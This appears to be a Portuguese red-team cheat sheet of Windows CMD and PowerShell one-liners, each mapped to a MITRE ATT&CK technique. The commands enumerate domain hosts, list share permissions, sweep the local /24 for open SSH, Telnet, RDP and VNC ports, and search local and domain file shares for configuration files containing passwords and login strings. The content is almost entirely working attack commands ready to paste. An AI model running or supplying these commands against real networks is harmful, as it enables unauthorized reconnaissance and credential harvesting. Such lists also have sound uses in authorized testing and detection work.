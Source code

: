 - Listar Hostnames [[`Discovery:T1018:Remote System Discovery`](https://attack.mitre.org/techniques/T1018/)] (`CMD`)
```cmd
FOR /F "TOKENS=1,2" %A IN ('"nslookup %userdnsdomain% | findstr /I "Addresses:""') DO @( FOR /F "tokens=1,2,3 delims=." %X in ('echo %B') DO @(FOR /L %i IN (1,1,254) DO @(echo Address: %X.%Y.%Z.%i && ping -w 1 -n 1 %X.%Y.%Z.%i  >NUL && nslookup %X.%Y.%Z.%i 2>NUL | findstr /I "Nome: Name:" 2>NUL)))
```

- Lista pastas compartilhadas [__Local__] (`CMD`)
  - Lista permissoes das pastas compartilhadas (LOCAL) [[`Discovery:T1083:File and Directory Discovery`](https://attack.mitre.org/techniques/T1083/)]
    ```cmd
    for /F "tokens=1,2" %A in ('"net view localhost 2>NUL | findstr /i disc"') DO @(icacls "\\localhost\%A" 2>NUL)
    ```
  - Busca arquivos com palavras especficas (LOCAL) [[`Credential-access:T1552.001:Credentials In Files`](https://attack.mitre.org/techniques/T1552/001/)]
    ```cmd
    for /F "tokens=1,2" %A in ('"net view localhost 2>NUL | findstr /i disc"') DO @(for /F %B IN ('"dir /S /B "\\localhost\%A" 2>NUL | findstr ".xml .bat .ps .cmd .conf .config .ini .json .txt .yml .sql""') DO @(type "%B" 2>NUL | findstr /I "passw mysql oracle postgres sql senha username ftp ssh scp winscp vnc login" 2>NUL))
    ```

- Lista pastas compartilhadas [__Remoto__] [__DNSDOMAIN__] (`CMD`)

  - Lista permissoes das pastas compartilhadas [__DNSDOMAIN__] [[`Discovery:T1135:Network Share Discovery`](https://attack.mitre.org/techniques/T1135/)]
    ```cmd
    FOR /F "tokens=1,2" %A in ('"net view %USERDNSDOMAIN% 2>NUL | findstr /i disc"') DO @(icacls "\\%USERDNSDOMAIN%\%A" 2>NUL)
    ```
  - Busca arquivos com palavras especficas [__DNSDOMAIN__] [[`Credential-access:T1552.001:Credentials In Files`](https://attack.mitre.org/techniques/T1552/001/)]
    ```cmd
    for /F "tokens=1,2" %A in ('"net view %USERDNSDOMAIN% 2>NUL | findstr /i disc"') DO @(for /F %B IN ('"dir /S /B "\\%USERDNSDOMAIN%\%A" 2>NUL | findstr ".xml .bat .ps .cmd .conf .config .ini .json .txt .yml .sql""') DO @(echo "%B" 2>NUL && type "%B" 2>NUL | findstr /I "passw mysql oracle postgres sql senha username ftp ssh scp winscp vnc login" 2>NUL))
    ```

- Lista pastas compartilhadas [__Remoto__][__DNSDOMAIN__][__LAN/24__] [[`Discovery:T1135:Network Share Discovery`](https://attack.mitre.org/techniques/T1135/)] (`CMD`)

```cmd
FOR /F "TOKENS=1,2" %A IN ('"nslookup %userdnsdomain% 2>NUL | findstr /I "Addresses:""') DO @(FOR /F "tokens=1,2,3 delims=." %X in ('"echo %B 2>NUL"') DO @(FOR /L %i IN (1,1,254) DO @(ping -w 1 -n 1 %X.%Y.%Z.%i 2>NUL | findstr /I "TTL=12" 1>NUL 2>NUL && echo Address: %X.%Y.%Z.%i && net view %X.%Y.%Z.%i 2>NUL | findstr /I "disc" 2>NUL)))
```

- Teste de Port Scan na rede do host target [[`Discovery:T1046:Network Service Discovery`](https://attack.mitre.org/techniques/T1046/)] (`powershell`)

```powershell
$IPv4=((Get-WmiObject Win32_NetworkAdapterConfiguration | Where-Object { $_.IPAddress -ne $null }).IPAddress[0] -split '\.')[0..2] -join '.';1..254 | % {"$IPv4.$_"} | % {$ip = $_; 22,23,3389,5900 | % {$port = $_; $socket = New-Object Net.Sockets.TcpClient; $wait = $socket.BeginConnect($ip, $port, $null, $null); $result = $wait.AsyncWaitHandle.WaitOne(100, $false); if ($result -eq $true) {Write-Host "$ip, $port, Open";$socket.EndConnect($wait)}; $socket.Close()}}
```
